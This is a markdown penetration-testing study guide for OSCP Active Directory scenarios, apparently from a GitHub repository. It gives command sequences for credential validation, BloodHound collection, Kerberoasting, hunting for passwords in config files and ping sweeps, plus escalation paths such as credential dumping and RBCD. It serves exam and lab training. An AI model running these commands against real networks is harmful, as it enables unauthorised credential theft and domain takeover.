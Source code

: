 
## Common OSCP AD Scenarios

### Scenario 1: Assumed Breach (Most Common in New OSCP)

**You start with domain credentials and need to escalate to Domain Admin**

```bash
# Given: DOMAIN\user:password

# Step 1: Validate credentials work
crackmapexec smb $TARGET -u $USER -p "$PASS"
# ✓ Confirm credentials are valid

# Step 2: Immediate BloodHound collection
bloodhound-python -d $DOMAIN -u $USER -p "$PASS" -ns $TARGET -c All

# Step 3: Check for quick wins while BloodHound runs
# Kerberoasting
GetUserSPNs.py $DOMAIN/$USER:"$PASS" -dc-ip $TARGET -request

# Check shares
crackmapexec smb $TARGET -u $USER -p "$PASS" --shares

# Step 4: Import BloodHound data and find shortest path to DA
# Look for: Shortest Paths to Domain Admins

# Step 5: Follow the path BloodHound shows you
# Common paths:
# - User → Local Admin on Computer → Dump credentials → Domain Admin
# - User → WriteDACL on other User → Change password → Domain Admin  
# - User → GenericAll on Computer → RBCD attack → Domain Admin
```

### Scenario 2: Web Application → Domain Controller

**Initial foothold through web app, pivot to AD**

```bash
# You have: Shell on web server (often as IIS_USER or similar)

# Step 1: Check if machine is domain-joined
echo %USERDOMAIN%
whoami /all

# Step 2: If domain-joined, enumerate domain
net user /domain
net group "Domain Admins" /domain

# Step 3: Hunt for credentials on the web server
# Check IIS logs, web.config, connection strings
findstr /si password *.config
findstr /si connection *.config

# Step 4: If found credentials, pivot to AD attacks
# Use any domain credentials you find for:
# - BloodHound collection
# - Kerberoasting  
# - LDAP enumeration

# Step 5: If no creds found, look for other domain machines
# Port scan internal network from compromised web server
for /L %i in (1,1,254) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is alive
```
